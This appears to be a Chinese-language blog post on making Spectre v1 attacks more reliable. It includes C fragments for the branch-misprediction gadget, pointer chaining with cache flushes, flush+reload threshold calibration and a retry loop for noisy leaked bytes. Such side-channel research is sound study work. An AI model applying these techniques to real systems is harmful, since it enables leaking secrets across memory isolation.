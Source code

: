 ```yaml
---
layout: post
title: Make spectre reliable
categories: [Microarchitecture vulnerability, Microarchitecture]
description: How to make spectre reliable
keywords: Microarchitecture
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


# Spectre
Spectre 本质是一种竞争, 大致情况如下:
我们首先进行一个 `if` 判断, 但是这次分支检测会很慢, `***index_p3` 变量不在cache中,
此时因为out of order execution, 处理器会优先执行下面的指令(前提是我们branch prediction需要被很好的训练).
但是随后处理器会检测到分支预测的结果出现错误, 原本这个分支不该进入, 那么处理器会回滚到之前的执行环境, 然而此时
我们已经用flush reload测信道得到了我们想要的数据.
```
/*
|if branch prediction; reorder buffer(pick a victim address)|
->
|reorder buffer micro code executing|
->
prediction incorrect 
->
flush the Icache and roll back
*/

	if (index < ***index_p3) // if(index < size>)
	{	
		pick = reloadbuffer[fake_buffer[index] << 12];
	}
```

# optimization

## chaining
最简单的办法就是, 我们将分支的执行速度变慢.
我们可以通过多重指针 (`***index_p3`)的方法, 访问 `size` 就需要不断的解析地址.


```
unsigned int *index_p1 = &size;
unsigned char aligned_buffer1[4096];
unsigned int **index_p2 = &index_p1;
unsigned char aligned_buffer2[4096];
unsigned int ***index_p3 = &index_p2;
```

同时我们将所有的指针的地址全部flush, 也就是说这个时候, 我们会遇到四次 cache miss, 我们也会有足够的时间访问我们需要访问的victim data.

```
cacheflush(&size);
			cacheflush(&index_p1);
			cacheflush(&index_p2);
			cacheflush(&index_p3);
			for(int z = 0; z < 100; z++){
			}

```

## Inline assembly
第二个方法就是改成汇编, 但是编译器产生的代码还是比较简洁的, 不一定能起到很好的效果.

## Threshold
最重要的一个就是阈值需要设置正确.

一开始我通过下面的代码生成阈值, 但是我得到的是大致 cache miss 的均值. 这个阈值明显偏高.

```
uint64_t measure_latency() {
	uint64_t time = 0;
	uint64_t time_total = 0;
	uint64_t threshold = 0;
	struct timespec start, end;
	for (int r = 0; r < 300; r++) {
		cacheflush(&fake_buffer[0]);
		barrier();
		time = timed_read(&fake_buffer[0], &start, &end);
		time_total += time;
	}
	threshold = time_total / 300;
	return threshold;
}
```

我们可以计算出 300 次cache miss最小的时间, 但是这个时间依然比cache hit时间要大不少.
所以最好同时测量cache miss 和 hit 的时间, 然后手动设置阈值.

## rolling back
有时候由于噪音的影响, 会出现很明显的错误, 例如我的例子中获得的结果不是可打印字符.

这时候我们可以通过回滚重新进行 spectre攻击.

```
for(int i = 0; i < secret_len; i++)
	{
		leak(offset + i, &byte);
		if(byte >= 0x20 && byte <= 0x7e)
			leaked[i] = byte;
		else{
			i = i - 1;
		}
		
	}
```

## improve iterations
加大测量的数目一定程度上可以优化 spectre, 尤其在噪音比较多的时候, 但是往往效果并不好.
在我的实验中, reload 过程中的 cache hit 几乎都是集中在某一个点上, 这时候增加测量次数往往不能起到任何作用.
